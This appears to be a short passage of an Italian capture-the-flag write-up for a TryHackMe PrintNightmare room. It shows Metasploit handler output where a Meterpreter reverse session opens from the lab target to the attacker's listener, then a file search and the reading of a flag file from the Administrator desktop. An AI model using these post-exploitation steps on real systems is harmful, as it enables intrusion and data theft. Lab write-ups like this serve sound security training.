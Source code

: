 Infine, la tua sessione Meterpreter sarà un successo . 

Connessione in arrivo ricevuta

```shell-session
msf5 exploit(multi/handler) > [*] Sending stage (201283 bytes) to 10.10.105.71 [*] Meterpreter session 1 opened (192.168.0.100:4444 -> 10.10.105.71:55038) at 2021-08-17 17:56:31 +0100
```


```
search -f flag.txt
```

```
meterpreter > cat 'c:\Users\Administrator\Desktop\flag.txt'
THM{xxxxxxxxxxxx}
```

WriteUP parte Blue Team
https://tryhackme.com/room/printnightmarehpzqlp8

